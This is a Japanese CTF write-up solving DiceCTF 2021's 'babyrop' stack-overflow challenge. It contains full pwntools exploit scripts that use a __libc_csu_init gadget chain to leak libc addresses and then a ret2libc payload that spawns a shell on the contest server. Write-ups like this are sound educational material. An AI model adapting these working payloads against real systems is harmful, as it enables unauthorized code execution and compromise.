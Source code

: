 ```yaml
---
title: "DiceCTF 2021 - babyrop"
emoji: "🤖"
type: "tech" # tech: 技術記事 / idea: アイデア
topics: ["CTF", "Pwn", "Easy"]
published: true
---
```


## 問題概要
> "FizzBuzz101: Who wants to write a ret2libc"
> `nc dicec.tf 31924`
> Downloads
> [babyrop](https://dicegang.storage.googleapis.com/uploads/81a058cd979b5dbecfd4e34d34dc60b0badca42b646d0ce7bc5ac1f0b50ed599/babyrop)

`nc`コマンドでアクセスしてみると、`Your name:`と入力を求められるだけのシンプルなプログラムです。

## 解説
### 概要把握
取り敢えず初手無思考checksec。

```bash
$ checksec --file=./babyrop
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   68 Symbols     No       0      ./babyrop
```

Partial RELRO/No Canary/No PIEです。シンプルにret2libcをすればよさそうです。

適当なツール（今回はghidra）で可視化し、プログラムの把握を行います。

- 64bit
- 入力は長さ`0x40`の箇所に任意長読み込みのgets(つまりpaddingは長さ0x48)

セキュリティ機構はあまり考えなくてもよい（くらいに何もない）ので必要な流れは以下の通りです。

1. libc内の`write`関数の位置を取得する
2. [libc database search](https://libc.blukat.me/)を用いてlibcの特定、libc base addrの特定を行い、`system("/bin/sh")`に必要な`system`と`"/bin/sh"`の位置を調べる
3. payloadを投げる

### libc leak
`write`関数は引数を3つ取ります。そのため、`rdi`、`rsi`、`rdx`の3つのレジスタに任意の値を入れられることが求められますが、使えそうなrop gadgetについてrp++を利用して検索すると、

```
0x004011d3: pop rdi ; ret  ;  (1 found)
0x004011d1: pop rsi ; pop r15 ; ret  ;  (1 found)
```

と`rdi`、`rsi`については見つかります。が、`rdx`がありません。ごく普通のropは難しそうです。ところで、関数の引数が3つの場合においては`__libc_csu_init`を用いた攻撃が有効であることがあります。詳しくは[ももテクの記事](http://inaz2.hatenablog.com/entry/2014/07/31/010158)にありますが、

1. `__libc_csu_init`の適切な箇所に飛んでスタックからレジスターの値を埋める
2. 同じ関数内の1の少し上の部分にもう一度飛んで関数呼び出しをする
3. 自然と1に戻るので任意回3引数の関数を自由にスタックから呼び出せる

というものです。覚えておいて損は無いかと。

ということで、`write@GLIBC`を出力してもらうためのコードがこちら。

```python:leak.py
from pwn import *

e = ELF("./babyrop")
rop = ROP(e)
rop.raw(0)

rop = ROP(e)

payload = b"A" * (0x40 + 8)
payload += p64(0x4011ca) # __libc_csu_init + 90 : pop rbx
payload += p64(0) # rbx = 0
payload += p64(1) # rbp = 1 (for no loop)
payload += p64(1) # r12 (stdout)
payload += p64(e.got["gets"]) # r13 (for leak addr)
payload += p64(8) # r14 (output bytes)
payload += p64(e.got["write"]) # r15 (call addr)
payload += p64(0x4011b0) # __libc_csu_init + 64 : mov rdx, r14

io = remote("dicec.tf", 31924)
# io = process(["./babyrop"])
print(io.recvuntil("Your name: ") + payload)
io.sendline(payload)

print(io.recv(8))
io.interactive()
```

leakして出てきたアドレス`0x00007f47d9a091d0`というアドレスを[libc database search](https://libc.blukat.me/)で検索します。

候補として3つ程出てきたのですが、`gets`関数についてもアドレスの絞り込みを行ったり、総当たりで試すことで`libc6_2.31-0ubuntu9.1_amd64.so`っぽいです。ここまで分かったら`[leakしたwrite@GOTのアドレス]-[libc内におけるwriteのオフセット]`を計算することでlibc base addrが計算できます。

### ret2libcをする
この時点で

- libc base addr
- libc内の`system`関数の位置
- libc内の`"/bin/sh"`の位置

が分かっています。そのため、上のpayloadに加えて`system("/bin/sh")`を実行するROPをすればOKです。今回は

1. `write@GOT`のリーク、libc base addrの算出
2. もう一度`main`に戻って`gets`を呼び出し
3. `system("/bin/sh")`の実行

という3段に分けました。

```python:solve.py
from pwn import *

e = ELF("./babyrop")
libc = ELF("./libc6_2.31-0ubuntu9.1_amd64.so")

payload = b''.join([b"A" * (0x40 + 8),
    p64(0x4011c6), # __libc_csu_init + 86 : add rsp, 0x8
    p64(0), # anything may be ok
    p64(0), # rbx = 0
    p64(1), # rbp = 1 (for no loop)
    p64(1), # r12 (edi as stdout)
    p64(e.got["write"]), # r13 (for leak addr)
    p64(8), # r14 (output bytes)
    p64(e.got["write"]), # r15 (call addr)
    p64(0x4011b0), # __libc_csu_init + 64 : mov rdx, r14
    b"deadbeef" * 7, # anything will do
    p64(e.symbols["main"]) # repeat main process
])

io = remote("dicec.tf", 31924)
# io = process(["./babyrop"])
io.recvuntil("Your name: ")
io.sendline(payload)

libc.address = (u64(io.recv(8)) - libc.symbols["write"])
print("libc base is:", hex(libc.address))

payload = b"".join([b"A" * 0x48,
    p64(0x4011d3), # pop rdi; ret
    p64(next(libc.search(b"/bin/sh"))),
    p64(libc.symbols["system"])
])

io.recvuntil("Your name: ")
io.sendline(payload)

io.interactive()
```

2回目のpayloadは非常にシンプルなのですが、1回目のpayloadは先程のコードから若干弄っています。`0x4011ca`から`0x4011c6`に飛ぶ場所を1命令分変えているのですが、これが無いと2回目のROPが上手く動作していないようです。ローカルで動かして原因把握するのは宿題にさせてください。
